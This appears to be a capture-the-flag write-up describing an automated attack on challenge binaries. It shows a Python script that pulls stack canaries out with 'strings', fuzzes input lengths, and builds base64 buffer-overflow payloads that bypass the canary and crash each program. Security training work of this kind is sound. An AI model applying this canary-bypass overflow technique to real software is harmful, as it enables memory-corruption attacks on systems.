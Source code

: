 - Find the canary value.
- Find the offset of the input string where the canary is checked by fuzz testing between ‘canary ok’ and ‘hacking detected’ messages
- Send the string and canary. Validate our binary works. It should output ‘canary ok’ with some string with strlen > our strlen found in step 2

Interesting is the approach we took for #1. I found that using ‘strings’ on the binary for strings >= 8 bytes and then filtering out some static strings we could always locate an accurate canary value. So we just used that in the solution you’ll see later.

```
vagrant@crs:~/cuts/334_cuts$ strings -n 8 easy-prasky-with-buffalo-on-bing 
lddwDrwhkTEBSya_        # Canary
hacking detected, see ya    # Static for every binary
canary ok            # Static for every binary
clang-cgc version 3.4 (9085)  # Static for every binary
.shstrtab            # Static for every binary
.comment            # Static for every binary
```

When submitting the solution we find for our binary, we must send a base64 encoded string which, when decoded and input into the target binary will successfully bypass the canary and successfully crash (segfault) the program.

We automated this as below, we found this approach worked for all three challenges with no code changes.

```
#!/usr/bin/python
from subprocess import PIPE, Popen, check_output, call
import glob
import base64
print "[*] Extracting challenges..."
[call(['tar','xf',c]) for c in ['1000_cuts.tar.bz2','334_cuts.tar.bz2','666_cuts.tar.bz2']]
print "[*] Loading all canaries..."
canaries = {}
for r in check_output(["strings -f -n 8 334_cuts/easy* 666_cuts/* 1000_cuts/* | grep -Ev 'hacking|canary|clang|shstrtab|comment'"], shell=True).splitlines():
    fname, canary = r.split(': ')
    canaries[fname] = [canary]
print "[*] Loaded canaries for",len(canaries),"files"
dbout = open('hakdb.txt','w') # save them for later
print "[*] Fuzzing all files..."
for k in canaries:
    if 'xml' in k:
        continue
    print "[*] Fuzzing",k
    for i in range(8,200):
        p = Popen(['./'+k],stdout=PIPE,stdin=PIPE)
        stdout = p.communicate(('A' * i) + "\n")[0]
        if 'hacking' in stdout:
            print "[*] Hacking detected at len",i
            canaries[k].append(i)
            cbytes = canaries[k][0][:4]
            payload = "A" * i
            payload += cbytes
            payload += "C\n"
            p = Popen(['./'+k],stdout=PIPE,stdin=PIPE)
            stdout = p.communicate(payload)[0]
            if 'canary' in stdout:
                print "[*] Canary bypassed with payload ",i,cbytes
                crashpayload = base64.b64encode(payload[:-1] + "D" * 34 + "\n")
                canaries[k].append(crashpayload)
                dbout.write(k+":"+repr(canaries[k])+"\n")
            break
dbout.close()    
```